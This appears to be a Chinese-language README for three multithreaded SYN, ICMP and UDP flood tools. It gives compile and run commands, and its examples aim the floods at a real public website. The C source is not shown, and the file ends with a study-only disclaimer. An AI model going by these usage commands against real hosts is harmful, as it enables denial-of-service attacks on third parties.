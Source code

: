 1.SYN-ATTACK
==========
作者: Xuebi

邮箱: 2685043624@qq.com

Created Time: 2020.01.07

说明：
----
1.本程序采用多线程，模拟syn洪水进攻。
2.采用wireshack查看数据包

使用:
-----
```
$ gcc -o syn_attack syn_attack.c -lpthread
$ sudo ./syn_attack <IPaddress> <port>
```
例如
```
$ sudo ./syn_attack 0.0.0.0 80
$ sudo ./syn_attack www.pornhub.com 80
```



2.ICMP-ATTACK
==========
作者: Xuebi

邮箱: 2685043624@qq.com

Created Time: 2020.01.09

说明：
----
1.本程序采用多线程，模拟icmp洪水进攻。
2.采用wireshack查看数据包

使用:
-----
```
$ gcc -o icmp_attack icmp_attack.c -lpthread
$ sudo ./icmp_attack <IPaddress>
```
例如
```
$ sudo ./icmp_attack 0.0.0.0 
$ sudo ./icmp_attack www.pornhub.com
```

Bug
----
1. 发送的数据包中，ICMP检验和一半的包正确，一半的包错误。

1.UDP-ATTACK
==========
作者: Xuebi

邮箱: 2685043624@qq.com

Created Time: 2020.01.07

说明：
----
1.本程序采用多线程，模拟udp洪水进攻。
2.采用wireshack查看数据包

使用:
-----
```
$ gcc -o udp_attack udp_attack.c -lpthread
$ sudo ./udp_attack <IPaddress> <port>
```
例如
```
$ sudo ./udp_attack 0.0.0.0 80
$ sudo ./udp_attack www.pornhub.com 80
```


注意：
-----
本代码仅供交流学习，不得进行非法用途。
